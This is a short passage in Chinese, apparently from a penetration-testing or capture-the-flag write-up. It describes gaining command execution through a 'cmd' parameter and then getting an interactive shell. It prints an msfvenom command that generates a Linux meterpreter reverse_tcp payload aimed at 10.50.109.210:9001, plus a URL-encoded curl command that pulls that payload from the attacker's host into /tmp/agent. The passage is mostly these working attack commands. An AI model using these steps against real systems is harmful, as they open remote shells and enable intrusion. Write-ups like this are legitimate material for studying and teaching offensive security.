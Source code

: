 给到cmd参数即可执行命令：

[![](assets/1711556160-a0d5deeddb69faa37788b08dc9e1efa1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806203445-a036bcb6-3455-1.png)

上msf直接拿交互式shell:

```plain
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.50.109.210 LPORT=9001 -f elf -o reverse.elf
```

```plain
curl%20http%3A%2F%2F10.50.109.210%3A8101%2Freverse.elf%20-o%20%2Ftmp%2Fagent
```

拿到shell
